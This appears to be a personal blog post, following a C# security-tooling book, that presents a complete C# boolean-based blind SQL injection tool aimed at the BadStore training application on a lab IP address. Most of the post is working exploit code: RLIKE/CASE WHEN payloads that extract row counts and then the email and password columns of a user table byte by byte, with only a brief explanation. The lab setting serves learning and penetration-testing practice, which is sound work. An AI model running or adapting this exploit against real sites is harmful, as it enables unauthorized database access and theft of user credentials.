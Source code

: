 ```yaml
---
title: Creating a Blind/Boolean based mutational fuzzer to dump the database.
date: 2021-06-12 11:45:47 +07:00
categories: greyhatcch2
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a Blind/Boolean based mutational fuzzer to dump the database.
---
```


## This Program is a Boolean-Based Blind mutational fuzzer that will use true/false questions in order to glean information 1 byte at a time.

_This exploit is more complicated than the UNION based sql fuzzer and requires much more time to retrieve the data._

- We use the:
  > `RLIKE function` to match values with a regular expression which can be used like an 'if-else' statement for true/false queries.
  
  > Couple "CASE WHEN" statements in the `RLIKE function` for the 'if-else' functionality.
  
  > `COUNT(*) function` to return an integer for the number of rows in a table.
  
  > `MID() function` returns a particular substring depending on the starting index and length to return.
  
  > `ORD() function` converts a given input into an integer equivalent for matching data.
- The `GetString() method` from the "Encoding.ASCII" class to convert the array of bytes returned into a human readable string.



### Code block:

```csharp
using System;
using System.Net;
using System.Reflection;
using System.IO;
using System.Net.Sockets;
using System.Collections.Generic;
using System.Text;

namespace Boolean_Blind_Sql_Injection
{
    class Program
    {
        static void Main(string[] args)
        {
            // Asks server for length of no of rows in userdb table
            int countLength = 1;
            for (; ; countLength++)
            {
                string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
                getCountLength += " LENGTH(IFNULL(CAST(COUNT(*) AS CHAR), NULL)) FROM";
                getCountLength += " userdb)=" + countLength + ") THEN 0x28 ELSE 0x41 END))";
                getCountLength += " AND '";

                string response = MakeRequest(getCountLength);
                if (response.Contains("parentheses not balanced"))
                    break;
            }

            // Asks server for no of rows in userdb table
            List<byte> countBytes = new List<byte>();
            for (int i = 1; i <= countLength; i++)
            {
                for (int c = 48; c <= 58; c++)
                {
                    string getCount = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT";
                    getCount += " IFNULL(CAST(COUNT(*) AS CHAR), NULL) FROM userdb),";
                    getCount += i + ", 1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND '";
                    string response = MakeRequest(getCount);

                    if (response.Contains("parentheses not balanced"))
                    {
                        countBytes.Add((byte)c);
                        break;
                    }
                }
            }
            // Converts and prints no of rows
            int count = int.Parse(Encoding.ASCII.GetString(countBytes.ToArray()));
            Console.WriteLine("[+] No of rows in userdb: " + count);



            // Calling methods and printing values
            for (int row = 0; row < count; row++)
            {
                foreach (string column in new string[] { "email", "passwd" })
                {
                    Console.WriteLine("[!] Getting length of query value...");
                    int valLength = GetLength(row, column);
                    Console.WriteLine(valLength);

                    Console.WriteLine("[!] Getting value...");
                    string value = GetValue(row, column, valLength);
                    Console.WriteLine(value);
                }

            }

        }

        // Makes request and returns response
        private static string MakeRequest(string payload)
        {
            string url = "http://192.168.216.128/cgi-bin/badstore.cgi?action=search&searchquery=";
            HttpWebRequest request = (HttpWebRequest)WebRequest.Create(url + payload);

            string response = string.Empty;
            using (StreamReader reader = new StreamReader(request.GetResponse().GetResponseStream()))
                response = reader.ReadToEnd();

            return response;
        }

        
        // Ask server for actual length of the value
        private static int GetLength(int row, string column)
        {
            // Retrieves length
            int countLength = 0;
            for (; ; countLength++)
            {
                string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
                getCountLength += " LENGTH(IFNULL(CAST(CHAR_LENGTH(" + column + ") AS";
                getCountLength += " CHAR),NULL)) FROM userdb ORDER BY email LIMIT ";
                getCountLength += row + ",1)=" + countLength + ") THEN 0x28 ELSE 0x41 END)) AND";
                getCountLength += " 'TiT'='TiT";
                string response = MakeRequest(getCountLength);

                if (response.Contains("parentheses not balanced"))
                    break;
             }

            // Retrieve length actual val
            List<byte> countBytes = new List<byte>();
            for (int i = 0; i <= countLength; i++)
            {
                for (int c = 48; c <= 58; c++)
                {
                    // Changed it to a single string as it was easier to debug
                    string getLength = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(CHAR_LENGTH(" + column + ") AS CHAR),NULL) FROM userdb ORDER BY email LIMIT " + row + ",1)," + i + ",1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND 'TIT'='TIT";

                    string resp = MakeRequest(getLength);
                    if (resp.Contains("parentheses not balanced"))
                    {
                        countBytes.Add((byte)c);
                        break;
                    }                      
                }                    
            }
            if (countBytes.Count > 0)
                return int.Parse(Encoding.ASCII.GetString(countBytes.ToArray()));
            else
                return 0;  
        }

        // Ask server and retrieve a given value
        private static string GetValue(int row, string column, int length)
        {
            List<byte> valBytes = new List<byte>();
            for (int i = 0; i <= length; i++)
            {
                for (int c = 32; c <= 126; c++)
                {
                    string getChar = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(" + column + " AS CHAR),NULL) FROM userdb ORDER BY email LIMIT " + row + ",1)," + i + ",1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND 'TIT'='TIT";

                    string response = MakeRequest(getChar);
                    if (response.Contains("parentheses not balanced"))
                    {
                        valBytes.Add((byte)c);
                        break;
                    }
                }
            }
                return Encoding.ASCII.GetString(valBytes.ToArray());

        }
    }
}

```

### Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch2/Boolean_blind_sql_fuzzer/boolean_blind_sql_fuzzer.png)
